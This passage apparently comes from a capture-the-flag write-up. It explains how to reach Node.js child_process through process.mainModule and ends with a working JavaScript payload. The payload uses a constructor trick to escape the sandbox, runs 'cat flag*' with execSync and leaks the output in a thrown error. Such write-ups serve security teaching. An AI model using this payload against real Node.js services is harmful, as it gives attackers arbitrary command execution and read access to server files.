 Now for a way to execute system commands. The standard way is to use the *execSync()* function of <a href="https://nodejs.org/api/child_process.html">child_process</a>. You will typically see this called with a require statement like

```
const execSync = require('child_process').execSync;
```

due to scoping issues however we can't use such a statement and need to call it directly from the process module

```
process.mainModule.require("child_process").execSync()
```

we will use this to execute a system command to read the flag file and return its contents as part of the error we throw. The final command (which I have changed slightly to make shorter, but you should understand it now!) is

```javascript
(function (y){return ''[y?y:'length'][y]})('constructor')('throw new TypeError(process.mainModule.require(\"child_process\").execSync(\"cat flag*\").toString())')()
```
